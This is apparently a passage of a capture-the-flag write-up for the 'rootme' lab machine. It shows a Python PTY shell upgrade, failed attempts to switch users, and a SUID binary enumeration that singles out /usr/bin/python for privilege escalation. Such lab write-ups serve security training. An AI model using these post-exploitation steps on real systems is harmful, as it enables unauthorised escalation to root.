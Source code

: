### Upgrade shell

Spawned Python PTY shell so can run `sudo -l`. However, www-data is password protected.

```
python -c 'import pty; pty.spawn("/bin/sh")' 
```

### Attempt to login as other users

Both users are password protected, and cannot freely `su test` nor `su rootme`.

### Find other files with SUID

Quite a few wierd files with SUID perm, but `/usr/bin/python` stood as most worrying.

```shell
www-data@rootme:/etc$ find / -type f -perm /4000 2>/dev/null
find / -type f -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
```
